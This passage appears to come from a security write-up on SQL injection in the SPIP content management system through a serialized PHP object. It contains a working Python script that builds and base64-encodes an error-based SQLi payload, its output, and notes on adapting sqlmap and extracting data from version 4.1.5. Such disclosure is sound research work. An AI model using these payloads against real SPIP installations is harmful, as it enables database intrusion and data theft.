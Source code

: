 We can see that it's the same content as the one used with "json_decode". We can reduce it to :


`a:1:{i:0;a:4:{s:5:"objet";s:7:"article";s:6:"auteur";s:1:"1";s:7:"article";s:1:"1";s:8:"`**{{SQLi}}**`";s:0:""}}`

To generate our base64 encoded SQLi, we can use this small python script :

```python
from base64 import b64encode
from urllib.parse import quote

sqli_payload = "vu='' OR updatexml(1,concat(0x7e,(version())),0) #"
php_object = f'a:1:{{i:0;a:4:{{s:5:"objet";s:7:"article";s:6:"auteur";s:1:"1";s:7:"article";s:1:"1";s:{len(sqli_payload)}:"{sqli_payload}";s:0:"";}}}}'

print(php_object)
print(quote(b64encode(php_object.encode()).decode()))
```

Output :

```php
a:1:{i:0;a:4:{s:5:"objet";s:7:"article";s:6:"auteur";s:1:"1";s:7:"article";s:1:"1";s:50:"vu='' OR updatexml(1,concat(0x7e,(version())),0) #";s:0:"";}}
YToxOntpOjA7YTo0OntzOjU6Im9iamV0IjtzOjc6ImFydGljbGUiO3M6NjoiYXV0ZXVyIjtzOjE6IjEiO3M6NzoiYXJ0aWNsZSI7czoxOiIxIjtzOjUwOiJ2dT0nJyBPUiB1cGRhdGV4bWwoMSxjb25jYXQoMHg3ZSwodmVyc2lvbigpKSksMCkgIyI7czowOiIiO319
```

**SQLMAP** :

To make it work, we would have to create a custom tamper script, that takes the generated SQLi payload, calculates its size and place it in the object (same way as the python script). We would then need to base64 encode the object and return it to SQLMAP. 

---

# Classic SQLi (any version)

As we have seen before, it is possible to send a time based payload in one shot to exfiltrate data. However, time based payloads generates a lot of traffic, and are quite slow.

To boost the efficiency, we came up with a procedure. We will be in a 4.1.5 version, which is exploitable with the "unserialize" version of the SQLi (it also works with "json_decode").

First of, here is the content of the "spip.spip_auteurs_liens" table :

![picture 3](images/8dde95f85b609b5d875ccdd7a880cf4b3cc43d23f4a060c5e330e210aafecfff.png)  
